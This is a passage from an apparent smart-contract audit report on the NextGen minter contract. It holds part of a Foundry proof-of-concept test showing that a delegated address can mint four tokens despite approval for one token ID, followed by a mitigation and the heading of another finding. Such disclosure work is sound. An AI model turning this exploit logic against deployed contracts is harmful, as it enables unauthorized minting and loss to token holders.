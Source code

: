```js
            1, // useCase
            false, // can't mint allTokens
            10000000001 // `tokenId` the `delAddress` is allowed to mint
        );
        hhMinter.updateDelegationCollection(1, collection1); // update `delAddress`

        /// set collection phases
        hhMinter.setCollectionPhases(
            1, // collectionID
            block.timestamp, // _allowlistStartTime
            block.timestamp + 1 days, // _allowlistEndTime
            block.timestamp + 2 days, // _publicStartTime
            block.timestamp + 3 days, // _publicEndTime
            merkleRoot_delAddress
        );

        /// minting
        vm.prank(delAddress);
        hhMinter.mint(
            1, // collectionID
            4, // numberOfTokens
            5, // maxAllowance for delegator
            '{"tdh": "100"}', // tokenData
            addr1, // mintTo
            _merkleProof_delAddress,
            addr1, // delegator
            2 // varg0
        );

        // @audit-issue : delAddress could mint 4 tokens in spite of having approval for only token id 10000000001
        assertEq(hhCore.retrieveTokensMintedALPerAddress(1, addr1), 4, "delegator could not mint 4 tokens");
    }
}
```

## Tools Used
Foundry.

## Recommended Mitigation Steps
Instead of relying on `retrieveGlobalStatusOfDelegation` [here](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/MinterContract.sol#L207-L209), modify it along the lines of `retrieveDelegationAddressesTokensIDsandExpiredDates(addr1, collection1, 1)` which returns an array of active delegations along with approved tokenIDs and then match that.

---

### <a id="h-03"></a>[H-03]
## **Delegation address is able to mint tokens even after the expiry time-window has passed**
#### https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/MinterContract.sol#L207-L209
<br>
